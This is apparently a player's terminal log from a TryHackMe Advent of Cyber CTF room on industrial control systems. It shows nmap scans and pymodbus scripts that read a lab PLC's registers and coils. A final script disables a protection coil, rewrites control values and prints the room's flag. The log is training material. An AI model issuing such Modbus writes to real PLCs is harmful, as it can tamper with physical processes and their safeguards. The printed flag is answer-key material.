


~/Work/THM/Advent-of-Cyber-2025/19-ICS\Modbus-Claus-for-Concern
❯ nmap -sV -p 22,80,502 10.49.137.35
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-09 15:04 +0530
Nmap scan report for 10.49.137.35
Host is up (0.063s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp open http Werkzeug httpd 3.1.3 (Python 3.12.3)
502/tcp open modbus Modbus TCP
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.19 seconds
~/Work/THM/Advent-of-Cyber-2025/19-ICS\Modbus-Claus-for-Concern 42s
❯ nmap -sV -T4 -p- -vv 10.49.137.35
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-09 15:06 +0530
NSE: Loaded 48 scripts for scanning.
Initiating Ping Scan at 15:06
Scanning 10.49.137.35 [2 ports]
Completed Ping Scan at 15:06, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:06
Completed Parallel DNS resolution of 1 host. at 15:06, 0.50s elapsed
Initiating Connect Scan at 15:06
Scanning 10.49.137.35 [65535 ports]
Discovered open port 8080/tcp on 10.49.137.35
Discovered open port 80/tcp on 10.49.137.35
Discovered open port 22/tcp on 10.49.137.35
Discovered open port 502/tcp on 10.49.137.35
Discovered open port 44818/tcp on 10.49.137.35
Discovered open port 102/tcp on 10.49.137.35
Completed Connect Scan at 15:06, 22.71s elapsed (65535 total ports)
Initiating Service scan at 15:06
Scanning 6 services on 10.49.137.35
Completed Service scan at 15:09, 158.66s elapsed (6 services on 1 host)
NSE: Script scanning 10.49.137.35.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 15:09
Completed NSE at 15:09, 1.16s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 15:09
Completed NSE at 15:09, 30.09s elapsed
Nmap scan report for 10.49.137.35
Host is up, received syn-ack (0.071s latency).
Scanned at 2026-10-09 15:06:24 IST for 213s
Not shown: 65529 closed tcp ports (conn-refused)
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp open http syn-ack Werkzeug httpd 3.1.3 (Python 3.12.3)
102/tcp open iso-tsap syn-ack Siemens S7 PLC
502/tcp open modbus syn-ack Modbus TCP
8080/tcp open http syn-ack Werkzeug httpd 2.3.7 (Python 3.12.3)
44818/tcp open EtherNetIP-2? syn-ack
Service Info: OS: Linux; Device: specialized; CPE: cpe:/o:linux:linux_kernel
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 213.33 seconds
~/Work/THM/Advent-of-Cyber-2025/19-ICS\Modbus-Claus-for-Concern 3m 10s
❯ python -m venv venv
~/Work/THM/Advent-of-Cyber-2025/19-ICS\Modbus-Claus-for-Concern
❯ source venv/bin/activate.fish
~/Work/THM/Advent-of-Cyber-2025/19-ICS\Modbus-Claus-for-Concern
venv ❯ pip3 install pymodbus==3.6.8
Collecting pymodbus==3.6.8
Downloading pymodbus-3.6.8-py3-none-any.whl.metadata (14 kB)
Downloading pymodbus-3.6.8-py3-none-any.whl (185 kB)
Installing collected packages: pymodbus
Attempting uninstall: pymodbus
Found existing installation: pymodbus 3.15.0
Uninstalling pymodbus-3.15.0:
Successfully uninstalled pymodbus-3.15.0
Successfully installed pymodbus-3.6.8
~/Work/THM/Advent-of-Cyber-2025/19-ICS\Modbus-Claus-for-Concern 32s
venv ❯ cat > script.py
from pymodbus.client import ModbusTcpClient
# Connect to the PLC on port 502
client = ModbusTcpClient('10.49.137.35', port=502)
# Connection Successful?
if client.connect():
print("Connected to PLC successfully")
else:
print("Connection failed")
# Read holding register 0 (Package Type)
result = client.read_holding_registers(address=0, count=1, slave=1)
if not result.isError():
package_type = result.registers[0]
print(f"HR0 (Package Type): {package_type}")
if package_type == 0:
print(" Christmas Presents")
elif package_type == 1:
print(" Chocolate Eggs")
elif package_type == 2:
print(" Easter Baskets")
# Read holding register 1 (Delivery Zone)
result = client.read_holding_registers(address=1, count=1, slave=1)
if not result.isError():
zone = result.registers[0]
print(f"HR1 (Delivery Zone): {zone}")
if zone == 10:
print(" WARNING: Ocean dump zone")
else:
print(f" Normal delivery zone")
# Read holding register 4 (System Signature)
result = client.read_holding_registers(address=4, count=1, slave=1)
if not result.isError():
signature = result.registers[0]
print(f"HR4 (System Signature): {signature}")
if signature == 666:
print(" EGGSPLOIT DETECTED - King Malhare's signature")
# Read coil 10 (Inventory Verification)
result = client.read_coils(address=10, count=1, slave=1)
if not result.isError():
verification = result.bits[0]
print(f"C10 (Inventory Verification): {verification}")
if not verification:
print(" DISABLED - System not checking stock")
# Read coil 11 (Protection/Override)
result = client.read_coils(address=11, count=1, slave=1)
if not result.isError():
protection = result.bits[0]
print(f"C11 (Protection/Override): {protection}")
if protection:
print(" ACTIVE - Changes are being monitored")
# Read coil 15 (Self-Destruct Status)
result = client.read_coils(address=15, count=1, slave=1)
if not result.isError():
armed = result.bits[0]
print(f"C15 (Self-Destruct Armed): {armed}")
if not armed:
print(" Not armed yet - safe for now")
^C⏎
~/Work/THM/Advent-of-Cyber-2025/19-ICS\Modbus-Claus-for-Concern 9s
venv ❯ python script.py
Connected to PLC successfully
HR0 (Package Type): 1
Chocolate Eggs
HR1 (Delivery Zone): 5
Normal delivery zone
HR4 (System Signature): 666
EGGSPLOIT DETECTED - King Malhare's signature
C10 (Inventory Verification): False
DISABLED - System not checking stock
C11 (Protection/Override): True
ACTIVE - Changes are being monitored
C15 (Self-Destruct Armed): False
Not armed yet - safe for now
~/Work/THM/Advent-of-Cyber-2025/19-ICS\Modbus-Claus-for-Concern
venv ❯ cat > reconnaissance.py
#!/usr/bin/env python3
from pymodbus.client import ModbusTcpClient
PLC_IP = "10.49.137.35"
PORT = 502
UNIT_ID = 1
# Connect to PLC
client = ModbusTcpClient(PLC_IP, port=PORT)
if not client.connect():
print("Failed to connect to PLC")
exit(1)
print("=" * 60)
print("TBFC Drone System - Reconnaissance Report")
print("=" * 60)
print()
# Read holding registers
print("HOLDING REGISTERS:")
print("-" * 60)
registers = client.read_holding_registers(address=0, count=5, slave=UNIT_ID)
if not registers.isError():
hr0, hr1, hr2, hr3, hr4 = registers.registers
print(f"HR0 (Package Type): {hr0}")
print(f" 0=Christmas, 1=Eggs, 2=Baskets")
print()
print(f"HR1 (Delivery Zone): {hr1}")
print(f" 1-9=Normal zones, 10=Ocean dump")
print()
print(f"HR4 (System Signature): {hr4}")
if hr4 == 666:
print(f" WARNING: Eggsploit signature detected")
print()
# Read coils
print("COILS (Boolean Flags):")
print("-" * 60)
coils = client.read_coils(address=10, count=6, slave=UNIT_ID)
if not coils.isError():
c10, c11, c12, c13, c14, c15 = coils.bits[:6]
print(f"C10 (Inventory Verification): {c10}")
print(f" Should be True")
print()
print(f"C11 (Protection/Override): {c11}")
if c11:
print(f" ACTIVE - System monitoring for changes")
print()
print(f"C12 (Emergency Dump): {c12}")
if c12:
print(f" CRITICAL: Dump protocol active")
print()
print(f"C13 (Audit Logging): {c13}")
print(f" Should be True")
print()
print(f"C14 (Christmas Restored): {c14}")
print(f" Auto-set when system is fixed")
print()
print(f"C15 (Self-Destruct Armed): {c15}")
if c15:
print(f" DANGER: Countdown active")
print()
print("=" * 60)
print("THREAT ASSESSMENT:")
print("=" * 60)
if hr4 == 666:
print("Eggsploit framework detected")
if c11:
print("Protection mechanism active - trap is set")
if hr0 == 1:
print("Package type forced to eggs")
if not c10:
print("Inventory verification disabled")
if not c13:
print("Audit logging disabled")
print()
print("REMEDIATION REQUIRED")
print("=" * 60)
client.close()
^C⏎
~/Work/THM/Advent-of-Cyber-2025/19-ICS\Modbus-Claus-for-Concern 10s
venv ❯ python reconnaissance.py
============================================================
TBFC Drone System - Reconnaissance Report
============================================================
HOLDING REGISTERS:
------------------------------------------------------------
HR0 (Package Type): 0
0=Christmas, 1=Eggs, 2=Baskets
HR1 (Delivery Zone): 0
1-9=Normal zones, 10=Ocean dump
HR4 (System Signature): 0
COILS (Boolean Flags):
------------------------------------------------------------
C10 (Inventory Verification): False
Should be True
C11 (Protection/Override): False
C12 (Emergency Dump): False
C13 (Audit Logging): False
Should be True
C14 (Christmas Restored): False
Auto-set when system is fixed
C15 (Self-Destruct Armed): False
============================================================
THREAT ASSESSMENT:
============================================================
Inventory verification disabled
Audit logging disabled
REMEDIATION REQUIRED
============================================================
~/Work/THM/Advent-of-Cyber-2025/19-ICS\Modbus-Claus-for-Concern
venv ❯ cat > restore_christmas.py
#!/usr/bin/env python3
from pymodbus.client import ModbusTcpClient
import time
PLC_IP = "10.49.137.35"
PORT = 502
UNIT_ID = 1
def read_coil(client, address):
result = client.read_coils(address=address, count=1, slave=UNIT_ID)
if not result.isError():
return result.bits[0]
return None
def read_register(client, address):
result = client.read_holding_registers(address=address, count=1, slave=UNIT_ID)
if not result.isError():
return result.registers[0]
return None
# Connect to PLC
client = ModbusTcpClient(PLC_IP, port=PORT)
if not client.connect():
print("Failed to connect to PLC")
exit(1)
print("=" * 60)
print("TBFC Drone System - Christmas Restoration")
print("=" * 60)
print()
# Step 1: Check current state
print("Step 1: Verifying current system state...")
time.sleep(1)
package_type = read_register(client, 0)
protection = read_coil(client, 11)
armed = read_coil(client, 15)
print(f" Package Type: {package_type} (1 = Eggs)")
print(f" Protection Active: {protection}")
print(f" Self-Destruct Armed: {armed}")
print()
# Step 2: Disable protection
print("Step 2: Disabling protection mechanism...")
time.sleep(1)
result = client.write_coil(11, False, slave=UNIT_ID)
if not result.isError():
print(" Protection DISABLED")
print(" Safe to proceed with changes")
else:
print(" FAILED to disable protection")
client.close()
exit(1)
print()
time.sleep(1)
# Step 3: Change package type to Christmas
print("Step 3: Setting package type to Christmas presents...")
time.sleep(1)
result = client.write_register(0, 0, slave=UNIT_ID)
if not result.isError():
print(" Package type changed to: Christmas Presents")
else:
print(" FAILED to change package type")
print()
time.sleep(1)
# Step 4: Enable inventory verification
print("Step 4: Enabling inventory verification...")
time.sleep(1)
result = client.write_coil(10, True, slave=UNIT_ID)
if not result.isError():
print(" Inventory verification ENABLED")
else:
print(" FAILED to enable verification")
print()
time.sleep(1)
# Step 5: Enable audit logging
print("Step 5: Enabling audit logging...")
time.sleep(1)
result = client.write_coil(13, True, slave=UNIT_ID)
if not result.isError():
print(" Audit logging ENABLED")
print(" Future changes will be logged")
else:
print(" FAILED to enable logging")
print()
time.sleep(2)
# Step 6: Verify restoration
print("Step 6: Verifying system restoration...")
time.sleep(1)
christmas_restored = read_coil(client, 14)
new_package_type = read_register(client, 0)
emergency_dump = read_coil(client, 12)
self_destruct = read_coil(client, 15)
print(f" Package Type: {new_package_type} (0 = Christmas)")
print(f" Christmas Restored: {christmas_restored}")
print(f" Emergency Dump: {emergency_dump}")
print(f" Self-Destruct Armed: {self_destruct}")
print()
if christmas_restored and new_package_type == 0 and not emergency_dump and not self_destruct:
print("=" * 60)
print("SUCCESS - CHRISTMAS IS SAVED")
print("=" * 60)
print()
print("Christmas deliveries have been restored")
print("The drones will now deliver presents, not eggs")
print("Check the CCTV feed to see the results")
print()
# Read the flag from registers
flag_result = client.read_holding_registers(address=20, count=12, slave=UNIT_ID)
if not flag_result.isError():
flag_bytes = []
for reg in flag_result.registers:
flag_bytes.append(reg >> 8)
flag_bytes.append(reg & 0xFF)
flag = ''.join(chr(b) for b in flag_bytes if b != 0)
print(f"Flag: {flag}")
print()
print("=" * 60)
else:
print("Restoration incomplete - check system state")
client.close()
print()
print("Disconnected from PLC")
^C⏎
~/Work/THM/Advent-of-Cyber-2025/19-ICS\Modbus-Claus-for-Concern 8s
venv ❯ python restore_christmas.py
============================================================
TBFC Drone System - Christmas Restoration
============================================================
Step 1: Verifying current system state...
Package Type: 0 (1 = Eggs)
Protection Active: False
Self-Destruct Armed: False
Step 2: Disabling protection mechanism...
Protection DISABLED
Safe to proceed with changes
Step 3: Setting package type to Christmas presents...
Package type changed to: Christmas Presents
Step 4: Enabling inventory verification...
Inventory verification ENABLED
Step 5: Enabling audit logging...
Audit logging ENABLED
Future changes will be logged
Step 6: Verifying system restoration...
Package Type: 0 (0 = Christmas)
Christmas Restored: True
Emergency Dump: False
Self-Destruct Armed: False
============================================================
SUCCESS - CHRISTMAS IS SAVED
============================================================
Christmas deliveries have been restored
The drones will now deliver presents, not eggs
Check the CCTV feed to see the results
Flag: THM{eGgMas0V3r}
============================================================
Disconnected from PLC
